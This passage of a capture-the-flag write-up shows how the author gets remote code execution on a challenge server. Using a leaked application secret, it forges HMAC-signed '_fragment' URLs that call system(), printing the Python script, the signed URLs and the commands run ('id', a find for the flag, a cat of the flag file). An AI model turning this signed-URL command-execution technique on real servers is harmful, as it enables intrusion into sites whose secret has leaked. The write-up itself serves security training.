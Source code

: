 ### Remote code execution
We now know that we can properly calculate the HMAC so we try to run some code on the server:

```python
# calculate HMAC for call to system("id", null) which would be called with
# http://challs.dvc.tf:9000/_fragment?_path=_controller=system&command=id&return_value=null
import base64, hmac, hashlib
print(base64.b64encode(hmac.HMAC(b'60b938ad59ac73568c7f2d6c282cd084', b'http://challs.dvc.tf:9000/_fragment?_path=_controller%3Dsystem%26command%3Did%26return_value%3Dnull', hashlib.sha256).digest()))
# b'KMwS5Oc86Op3T32GVDjKUlzlRcWrqAkXP/HpBI50WiE='

# Append hash to url
# http://challs.dvc.tf:9000/_fragment?_path=_controller%3Dsystem%26command%3Did%26return_value%3Dnull&_hash=KMwS5Oc86Op3T32GVDjKUlzlRcWrqAkXP%2FHpBI50WiE%3D
```
    
<img width="1461" alt="grafik" src="https://user-images.githubusercontent.com/3590155/158147275-14d08b2d-8e6f-4fd5-aec9-997388f24a23.png">

We can see the result of running id by calling `system($command)`.

### Retrieving the flag
Now let's use find to find the flag.
Using the following script we can generate URLs for running arbitrary commands on the server:

```python
import base64, hmac, hashlib
import urllib.parse

appSecret = b'60b938ad59ac73568c7f2d6c282cd084'
baseUrl = 'http://challs.dvc.tf:9000/_fragment?_path=_controller%3D'
command = "system&command=find%20%2F%20-name%20flag.%2A&return_value=null"
fullUrl = baseUrl + urllib.parse.quote(command)
hash = base64.b64encode(hmac.HMAC(b'60b938ad59ac73568c7f2d6c282cd084', fullUrl.encode('UTF-8'), hashlib.sha256).digest())
```

print(fullUrl + '&_hash=' + urllib.parse.quote(hash))

This gives us the URL `http://challs.dvc.tf:9000/_fragment?_path=_controller%3Dsystem%26command%3Dfind%2520%252F%2520-name%2520flag.%252A%26return_value%3Dnull&_hash=fQFSkmoPF7cmMBKMyTUdOJGkIIGKuWJKi3NOK7lA2HI%3D` which reveals the flag

<img width="624" alt="grafik" src="https://user-images.githubusercontent.com/3590155/158148800-5b27b50e-0f42-4439-ac5d-d3cc472da4c9.png">

So we create a new URL by replacing the command with `"system&command=cat%20%2Fvar%2Fwww%2Fhtml%2Fchall%2Fflag.txt%20&return_value=null"`.
The new URL is `http://challs.dvc.tf:9000/_fragment?_path=_controller%3Dsystem%26command%3Dcat%2520%252Fvar%252Fwww%252Fhtml%252Fchall%252Fflag.txt%2520%26return_value%3Dnull&_hash=3gkvuAFZrCeS0a0xE51myb6xBQejXT3x0uZRJi0GcK8%3D`.

<img width="624" alt="grafik" src="https://user-images.githubusercontent.com/3590155/158149072-1a4bc591-3de1-4ec5-bd3b-91fb82c75d64.png">

Entering this URL in the browser gives us the flag **`dvCTF{1c5b0abc99b19effaacd1aa7d6ec28f8}`**
